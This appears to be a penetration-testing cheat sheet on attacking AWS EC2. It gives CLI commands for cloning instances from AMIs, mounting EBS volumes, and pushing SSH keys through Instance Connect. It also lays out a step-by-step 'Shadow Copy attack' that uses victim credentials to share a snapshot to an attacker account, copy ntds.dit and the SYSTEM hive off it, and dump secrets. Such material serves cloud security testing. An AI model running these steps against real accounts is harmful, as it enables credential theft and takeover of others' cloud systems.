 # AWS - EC2

* [dufflebag](https://labs.bishopfox.com/dufflebag) - Find secrets that are accidentally exposed via Amazon EBS's "public" mode


## Copy EC2 using AMI Image

First you need to extract data about the current instances and their AMI/security groups/subnet : `aws ec2 describe-images --region eu-west-1`

```powershell
# create a new image for the instance-id
$ aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1  

# add key to AWS
$ aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1  

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
$ aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance 
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1 

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1 
aws ec2 terminate-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```


## Mount EBS volume to EC2 Linux

:warning: EBS snapshots are block-level incremental, which means that every snapshot only copies the blocks (or areas) in the volume that had been changed since the last snapshot. To restore your data, you need to create a new EBS volume from one of your EBS snapshots. The new volume will be a duplicate of the initial EBS volume on which the snapshot was taken.

1. Head over to EC2 –> Volumes and create a new volume of your preferred size and type.
2. Select the created volume, right click and select the "attach volume" option.
3. Select the instance from the instance text box as shown below : `attach ebs volume`
    ```powershell
    aws ec2 create-volume –snapshot-id snapshot_id --availability-zone zone
    aws ec2 attach-volume –-volume-id volume_id –-instance-id instance_id --device device
    ```
4. Now, login to your ec2 instance and list the available disks using the following command : `lsblk`
5. Check if the volume has any data using the following command : `sudo file -s /dev/xvdf`
6. Format the volume to ext4 filesystem  using the following command : `sudo mkfs -t ext4 /dev/xvdf`
7. Create a directory of your choice to mount our new ext4 volume. I am using the name “newvolume” : `sudo mkdir /newvolume`
8. Mount the volume to "newvolume" directory using the following command : `sudo mount /dev/xvdf /newvolume/`
9. cd into newvolume directory and check the disk space for confirming the volume mount : `cd /newvolume; df -h .`


## Shadow Copy attack

**Requirements**:

* EC2:CreateSnapshot
* [Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy)

**Exploit**:

1. Load AWS CLI with Victim Credentials that have at least CreateSnapshot permissions
2. Run `"Describe-Instances"` and show in list for attacker to select
3. Run `"Create-Snapshot"` on volume of selected instance
4. Run `"modify-snapshot-attribute"` on new snapshot to set `"createVolumePermission"` to attacker AWS Account
5. Load AWS CLI with Attacker Credentials
6. Run `"run-instance"` command to create new linux ec2 with our stolen snapshot
7. Ssh run `"sudo mkdir /windows"`
8. Ssh run `"sudo mount /dev/xvdf1 /windows/"`
9. Ssh run `"sudo cp /windows/Windows/NTDS/ntds.dit /home/ec2-user"`
10. Ssh run `"sudo cp /windows/Windows/System32/config/SYSTEM /home/ec2-user"`
11. Ssh run `"sudo chown ec2-user:ec2-user /home/ec2-user/*"`
12. SFTP get `"/home/ec2-user/SYSTEM ./SYSTEM"`
13. SFTP get `"/home/ec2-user/ntds.dit ./ntds.dit"`
14. locally run `"secretsdump.py -system ./SYSTEM -ntds ./ntds.dit local -outputfile secrets'`, expects secretsdump to be on path


## Instance Connect

Push an SSH key to EC2 instance

```powershell
# https://aws.amazon.com/fr/blogs/compute/new-using-amazon-ec2-instance-connect-for-ssh-access-to-your-ec2-instances/
$ aws ec2 describe-instances --profile uploadcreds --region eu-west-1 | jq ".[][].Instances | .[] | {InstanceId, KeyName, State}"
$ aws ec2-instance-connect send-ssh-public-key --region us-east-1 --instance-id INSTANCE --availability-zone us-east-1d --instance-os-user ubuntu --ssh-public-key file://shortkey.pub --profile uploadcreds
```


## References

* [How to Attach and Mount an EBS volume to EC2 Linux Instance - AUGUST 17, 2016](https://devopscube.com/mount-ebs-volume-ec2-instance/)
